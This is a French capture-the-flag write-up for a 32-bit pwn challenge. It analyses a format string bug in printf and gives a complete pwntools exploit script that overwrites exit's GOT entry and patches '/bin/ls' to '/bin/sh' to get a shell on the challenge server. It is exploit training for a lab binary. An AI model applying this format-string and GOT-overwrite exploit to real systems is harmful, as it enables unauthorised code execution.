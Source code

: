 ```yaml
---
title: Chiffrement de Beaufort -  HSR 2024
date: 2024-04-01
draft: true
categories:
  - format string
  - HSR
  - pwn
tags:
  - pwn
  - format_string
  - HSR
---
```

## Binary Analysis
Pour analyser le binaire, on va commencer par l'ouvrir avec un décompilo, comme **Binja**. Le binaire n'étant pas strippé, on peut s'aider des symboles pour deviner ce que fait chaque fonction.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_symbols.png)

A part la fonction *backdoor()* qui aspire à servir de fonction *win()*, le nom des fonctions ne nous apporte rien d'intéressant.
Regardons un peu plus en détail ce que fait le programme.

### Main()
Tout d'abord, la fonction *main()* va lire l'entrée standard à 2 reprises, attendant de l'utilisateur qu'il envoie une chaine de maximum 0x64 caractères. Ensuite elle va stocker ces entrées dans 2 buffers, puis appeler la fonction *beaufortCipher()* avec ces 2 buffers en paramètres.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_main1.png)

### beaufortCipher()
Quant à la fonction *cipherBeaufort()*, comme son nom l'indique, elle applique un chiffrement de **Beaufort** sur notre première input. La clé utilisée pour chiffrer le buffer est enfait notre 2ème input.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_cipher.png)

### End of main()
Une fois que notre input a été chiffrée avec la clé qu'on donne au programme, la fonction *main()* affiche le buffer chiffré, puis la clé qu'on lui a donné.
Et c'est ici que se trouve la vuln. 

En effet, le *printf()* que le programme appel pour afficher notre clé prend directement la clé comme premier argument. Ainsi notre input (la clé) est interpetée, par *printf()*, comme étant le formatteur.
Le programme est donc vulnérable à une format string.

![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_main2.png)

## Theorycraft
Maintenant réfléchissons à comment on va exploiter la vuln. Si on fait un **checksec**, on remarque que le binaire n'a ni **PIE**, ni **RelRO**.
```sh title:checksec
Canary  :    ✘ 
NX      :    ✓ 
PIE     :    ✘ 
Fortify :    ✘ 
RelRO   :    Partial
```

Dans tous les cas on part du principe que **l'ASLR** est actif. De plus, comme le chall est en remote, on a pas les détails de l'environnement dans lequel run le binaire, donc c'est trop foireux de se baser sur des adresses hardcodées de la stack.

Par contre, l'abscence de **RelRO** et de **PIE** nous permet non seulement de localiser la **GOT** à coup sûr, mais aussi d'y accéder en écriture. On peut donc envisager d'overwrite certaines entrées de la GOT afin d'obtenir notre shell.

Enfin on a une fonction *backdoor()* qui lance un *system("/bin/ls")*. La string *"/bin/ls"* étant dans la section *.data*, on peut la changer pour *"/bin/sh"* avant de rediriger le flow d'execution vers *backdoor()*.
## Exploitation
Notre exploit va se faire en 3 étapes:
1) Trouver à quel offset notre input se trouve sur la stack, au moment du call à *printf()*
2) Overwrite *"/bin/ls"* avec *"/bin/sh"*
3) Overwrite l'entrée de *exit()* dans la **GOT** avec l'adresse de *backup()*

### Input offset
Pour trouver l'offset, tout ce qu'on a à faire est de lancer le programme, **break** au moment du *printf()* vulnérable et regarder à quelle distance de **$ESP** se trouve notre input. Pour repérer facilement notre input, on va envoyer *"aaaaaaa..."* comme clé.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_gdb.png)

On voit que notre input est à $0$x$78$ bytes de **$ESP**, soit en 32 bits, $30*4$ bytes. Notre offset est donc 30.

### The Exploit
Pour ce qui est de l'exploit, on va utiliser le module *fmtstr* de *Pwntools* et plus particulièrement la fonction *fmtstr_payload()*. Il nous suffit simplement de lui passer comme argument l'offset de notre input ainsi qu'un dictionnaire des adresses et des valeurs qu'on souhaite écrire.

```py
payload = fmtstr_payload(30, writes) 
print(payload)
```

L'adresse de *"/bin/ls"* est *0x0804c024*. On va donc écrire *"sh"* à *0x0804c029*, ce qui nous donnera *"/bin/sh"*.
Enfin on va réécrire l'entrée de *exit()* dans la **GOT** par l'adresse de la fonction *backup()*.

```py
writes = { 0x0804c029: 0x00006873, 
		   elfexe.got['exit']: elfexe.sym['backdoor']}
```

Ce qui donne comme exploit final :
```py title:exploit.py
#!/usr/bin/python3.9 
from pwn import * 

context.binary = elfexe = ELF('./beaufort.bin')

def start(argv=[], *a, **kw): 
	'''Start the exploit against the target.''' 
	elf_path = elfexe.path 
	
	if args.REMOTE: 
		remote_server = '10.22.148.11'
		remote_port = 1341
		target = remote(remote_server, remote_port) 
	else:  
		target = process([elf_path] + argv, *a, **kw) 
	
	return target 
		
#=========================================================== 
# EXPLOIT GOES HERE 
#=========================================================== 
def pad(payload): 
	return payload+b'_'*(0x64-len(payload)) 
	
arguments = [] 
io = start(arguments) 

writes = {0x0804c029: 0x00006873, 
		  elfexe.got['exit']: elfexe.sym['backdoor']} 

payload = b"A"*0x60 
io.sendline(payload) 

payload = fmtstr_payload(30, writes) 
payload = pad(payload) 

print(payload) 
io.sendline(payload) 

io.interactive()
io.close()
```
